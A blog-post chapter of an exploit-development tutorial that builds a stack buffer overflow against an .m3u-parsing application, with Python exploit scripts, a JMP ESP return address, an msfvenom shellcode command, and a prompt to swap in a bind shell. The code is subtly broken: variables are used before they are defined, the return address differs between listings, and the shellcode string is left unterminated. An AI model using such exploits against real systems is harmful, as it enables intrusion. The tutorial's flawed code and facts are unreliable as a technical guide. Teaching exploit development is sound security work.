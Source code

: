 ```yaml
---
layout: post
title:  "Reverse Engineering and Exploit Development Made Easy - Chapter 2"
date:   2019-07-08
categories: Exploit Dev
tags: [RE, Reverse Enginering, Exploit Development]
author: 4p0cryph0n
---
```


### Reverse Engineering and Exploit Development Made Easy - Chapter 2 ###

**:****~****# ./chapt2**

Welcome back! In the previous chapter, we focused on the basics of reverse engineering, and gained control of the EIP register using our first binary. Now, let's dive into the fun stuff: shellcoding!

So, two things need to be done now:

1) Place shellcode in ESP (Basically an encoded payload. For example, bind shell or cmd exec.)

2) Replace EIP with a JMP instruction that points to our shellcode in ESP. A JMP instruction will jump to the shellcode and execute it.

First, in order to make sure that all of our shellcode is going into ESP, let's send a recognisable pattern. This way, we will be able to notice if some of our shellcode is getting cut, which can render our exploit unusable. I'll be using the pattern from the Corelan website itself:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's save the file and put it through the debugger.

![image1](.\images\2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2\image1.png)

So the highlighted value is what is in ESP. As you can see, our pattern is missing 4 bytes (1ABC), which means that the shellcode that's going in ESP is incomplete. This has a simple solution, all we have to do is add 4 bytes before our shellcode. I'll name this variable preesp.

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
preesp = "XXXX"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's put this through the debugger :)

![image2](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image2.png)

Now, let's look for a JMP ESP instruction. This instruction should belong to one of the application's DLL. Immunity will help us with this hunt :)

Run the program but do nothing, and right click anywhere in the CPU window and click on Search for > All commands in all modules. Like so:

Alright! Our test shellcode is going in just fine. Now, let's look for a jump ESP instruction.

Right-click anywhere in the CPU window, and search for all commands in all modules. Like so:

![image3](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image3.png)

Enter jmp esp in the popup box and click find.

![image4](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image4.png)

This instruction looks good. Copy the address, and then click on View in the toolbar, and click CPU to go back to the CPU window.

![image5](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image5.png)

Now, replace the 4 Bs in your code with this address. But remember one thing, this highlighted address is in the big Endian format. Computers can't read the address in in our code if we send it in big Endian. We need to change it into little Endian, which is the reverse of this (i.e. 3AF2D201). This is how we will include that address in our code:

```python
eip = "\x34\xF2\xD2\x01"
```

Now, let's generate some shellcode! I'm going to generate shellcode that will open the Calculator application (calc.exe) in Windows XP, just as a test. If this works, we can put a bind shell one in. For this, we will be using Metasploit.

`msfvenom -a x86 --platform windows -p windows/exec CMD="calc" --encoder x86/alpha_upper -f py`

The '--encoder' flag selects an encoder, in our case it's x86/alpha_upper. The '-f' flag tells it to print the payload for a python file. Now, let's add some NOPS (No operations, 90) and paste this in our code and watch the magic!

Your final code should look something like this:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "\x3A\xF2\xD2\x01"
preesp = "XXXX"
nops = "\x90"*25
buf = ""
buf += "\xd9\xe9\xd9\x74\x24\xf4\xbb\xcb\x65\x09\xdf\ #..... and so on
buf3 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + nops + buf + buf3
print(len(string))
f.write(string)
f.close()
```

![image6](/_posts/images/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image6.png)

Congratulations on your first successful exploit! Now, I want you to try and replace the calculator shellcode with a windows bind shell shellcode and get a shell. In the next chapter, we will cover more ways in which we can execute our shellcode. We will see the other instructions that can replace our JMP ESP instruction.

